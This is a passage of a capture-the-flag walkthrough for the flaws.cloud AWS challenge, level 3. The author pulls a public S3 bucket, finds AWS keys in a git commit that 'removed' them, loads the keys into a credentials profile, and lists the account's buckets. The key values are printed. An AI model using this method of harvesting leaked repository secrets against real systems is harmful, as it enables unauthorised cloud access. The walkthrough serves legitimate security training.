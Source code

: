 ```
root@kali:~/flaws.cloud.level3.temp # aws s3 sync --quiet s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud .
root@kali:~/flaws.cloud.level3.temp # git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
root@kali:~/flaws.cloud.level3.temp # git show b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

diff --git a/access_keys.txt b/access_keys.txt
deleted file mode 100644
index e3ae6dd..0000000
--- a/access_keys.txt
+++ /dev/null
@@ -1,2 +0,0 @@
-access_key AKIAJ366LIPB4IJKT7SA
-secret_access_key OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys
```
It seems to be a typical example where developer committed test credentials to the git repo and "removed" it later in a new commit. Adding the access key id and secret access key to a new profile in the credentials file on our attack machine:
```
[git]
aws_access_key_id=AKIAJ366LIPB4IJKT7SA
aws_secret_access_key=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
```
and now we can list all the buckets allowed access to the user with the credential:
```
root@kali:~/temp # aws --profile git s3api list-buckets
{
    "Buckets": [
        {
            "Name": "2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud",
            "CreationDate": "2017-02-12T21:31:07.000Z"
        },
        {
            "Name": "config-bucket-975426262029",
            "CreationDate": "2017-05-29T16:34:53.000Z"
        },
        {
            "Name": "flaws-logs",
            "CreationDate": "2017-02-12T20:03:24.000Z"
        },
        {
            "Name": "flaws.cloud",
            "CreationDate": "2017-02-05T03:40:07.000Z"
        },
        {
            "Name": "level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud",
            "CreationDate": "2017-02-24T01:54:13.000Z"
        },
        {
```